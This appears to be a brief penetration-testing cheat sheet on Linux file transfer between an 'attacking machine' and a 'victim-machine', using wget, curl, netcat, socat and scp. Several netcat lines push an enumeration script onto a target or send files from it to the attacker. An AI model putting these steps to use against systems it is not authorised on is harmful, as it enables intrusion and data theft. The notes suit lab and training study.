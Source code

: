 ## Linux File Transfer

Wget

- wget 192.168.1.102:9999/file.txt

Curl

- curl -O http://192.168.0.101/file.txt

Netcat

On attacking machine:
- nc -lvp 4444 < file

On target machine:
- nc 192.168.1.102 4444 > file

So on the victim-machine we run nc like this:
- nc -lvp 3333 > enum.sh

And on the attacking machine we send the file like this:
- nc 192.168.1.103 < enum.sh

I have sometimes received this error:
This is nc from the netcat-openbsd package. An alternative nc is available

I have just run this command instead:
- nc -l 1234 > file.sh

Socat
Server receiving file:
- server$ socat -u TCP-LISTEN:9876,reuseaddr OPEN:out.txt,creat && cat out.txt
- client$ socat -u FILE:test.txt TCP:127.0.0.1:9876
Server sending file:
- server$ socat -u FILE:test.dat TCP-LISTEN:9876,reuseaddr
- client$ socat -u TCP:127.0.0.1:9876 OPEN:out.dat,creat

SCP
Now we can copy files to a machine using scp
Copy a file:
- scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext
Copy a directory:
- scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
